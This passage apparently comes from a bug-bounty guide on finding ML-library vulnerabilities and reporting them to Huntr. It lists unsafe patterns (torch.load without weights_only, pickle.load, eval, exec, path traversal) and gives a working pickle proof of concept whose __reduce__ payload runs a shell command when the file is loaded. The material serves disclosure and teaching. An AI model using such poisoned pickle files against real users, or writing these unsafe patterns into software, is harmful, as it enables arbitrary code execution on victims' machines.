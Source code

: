 3. **🎯 Path Traversal** (High - $1000-$2000)
   ```python
   # Look for unsafe file operations:
   open(user_path)
   torch.save(model, user_path)
   ```

### Step 5: Create Proof of Concept
```python
# Example pickle exploitation PoC:
import pickle
import os

class MaliciousPayload:
    def __reduce__(self):
        return (os.system, ('id',))

# Serialize malicious payload
malicious_data = pickle.dumps(MaliciousPayload())

# Save as "model.pkl"
with open('malicious_model.pkl', 'wb') as f:
    f.write(malicious_data)

# Victim loads the model
with open('malicious_model.pkl', 'rb') as f:
    pickle.load(f)  # Executes 'id' command
```

### Step 6: Submit to Huntr
1. Go to https://huntr.com/bounties/disclose
2. Select the affected program
3. Use the generated report as a template
4. Include your proof of concept
5. Specify the vulnerability type and impact

---

## 🎯 High-Value Vulnerability Patterns

### 1. **Unsafe Model Loading**
Look for:
```python
# Vulnerable patterns:
torch.load(path)  # Missing weights_only=True
pickle.load(file)
joblib.load(model_file)
tf.saved_model.load(untrusted_path)
```

### 2. **Dynamic Code Execution**
Look for:
```python
# Dangerous patterns:
eval(user_input)
exec(model_config)
__import__(dynamic_name)
compile(user_code, '<string>', 'exec')
```
